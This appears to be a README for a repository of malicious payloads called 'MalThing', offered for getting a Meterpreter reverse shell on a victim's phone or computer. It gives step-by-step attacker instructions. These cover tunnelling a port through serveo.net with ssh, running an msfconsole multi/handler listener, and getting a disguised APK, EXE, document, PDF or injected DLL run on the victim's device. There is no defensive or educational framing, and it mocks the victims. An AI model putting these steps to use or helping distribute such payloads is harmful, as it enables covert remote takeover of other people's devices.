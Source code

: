 

__  __       _ _____ _     _

|  \/  | __ _| |_   _| |__ (_)_ __   __ _

| |\/| |/ _` | | | | | '_ \| | '_ \ / _` |

| |  | | (_| | | | | | | | | | | | | (_| |

|_|  |_|\__,_|_| |_| |_| |_|_|_| |_|\__, |
                                    |___/

A bunch of malicius thing to get a meterpreter shell

how to control this MalThing to create a METERPRETER SHELL!!!

MAKE SURE YOU HAVE AN INTERNET ACCESS!!!

1.install open ssh with "apt-get install openssh"

2.type "ssh -R 3249:localhost:3249 serveo.net"

3.open msfconsole run listener with multi/handler setup and with your localhost and port=3249

3.install and run the apk on your victime phone.....make sure your victim phone had a internet access(FOR THE MalAPK FILE)

3.Run it on the victim computer.....make sure your victim computer had a internet access(FOR THE MalEXE,MalMS,MalPDF)

4.and get a METERPRETER SHELL!!!!!HAHAHAHAHA

PS:For the dll....search for how to inject dll on process or watch this https://www.youtube.com/watch?v=yKoD5Oy8CKQ&t=338s
